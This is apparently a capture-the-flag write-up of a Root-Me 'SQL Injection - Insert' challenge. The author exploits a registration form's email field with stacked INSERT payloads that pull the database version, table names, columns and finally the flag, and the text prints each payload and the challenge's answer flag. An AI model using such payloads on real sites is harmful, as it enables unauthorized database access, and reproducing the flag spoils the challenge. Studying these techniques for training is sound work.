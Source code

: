 # SQL Injection - Insert

This challenge has two features: Authentication and Register.

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/SQLInjection_Insert1.png" />
</p>

To exploit this website, you must insert your payload using the register future. Firstly, I created an account, then logged into it. 

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/SQLInjection_Insert2.png" />
</p>

After I had logged in, I saw that the Username field and the Email field is displayed. So the inject point would be one of them. It took me some time to realize that the Email field is injectable. When I entered `'` into the Email fields it would tell me that `request failed`, but when I entered `"`, nothing would happend => The query is written using `'`, not `"`.

The query when I created a new account must be like this: `INSERT INTO table_name VALUES (‘username’,’password’,’email’)`. Then we can inject the payload like this: `'),(‘vnvn’,’vnvn’,’vnvn’)#`. The query will be `INSERT INTO table_name VALUES (‘username’,’password’,’'),(‘vnvn’,’vnvn’,’vnvn’)# ‘)` and we can insert 2 records using just one SQL command. The `')` at the end is filtered out by the `#`.

After that I tried to login using the username/password is vnvn/vnvn to check if the injection is worked or not. I think you already know the answer :D

Next, I checked SQL version using `'),('id1','pw1',(select version()))#`

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/SQLInjection_Insert3.png" />
</p>

Then I checked for the all the table name using `information_schema`. The payload is `'),('id2','pw2',(select group_concat(table_name) from information_schema.tables where table_schema=database()))#`. Please remember to use `group_concat` because if the result contains more than one row, you will get `Request failed` message.

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/SQLInjection_Insert4.png" />
</p>

I got two table name, that is `membres` and `flag`. I checked for the `flag` table first. 
`'),('id3','pw3',(select group_concat(column_name) from information_schema.columns where table_name='flag'))#`

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/SQLInjection_Insert5.png" />
</p>

The last thing is to get the flag using `'),('id4','pw4',(select group_concat(flag) from flag))#`

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/SQLInjection_Insert6.png" />
</p>


and solve this challenge

<p align="center">
  <img src="https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/SQLInjection_Insert7.png" />
</p>


The flag is `moaZ63rVXUhlQ8tVS7Hw`.


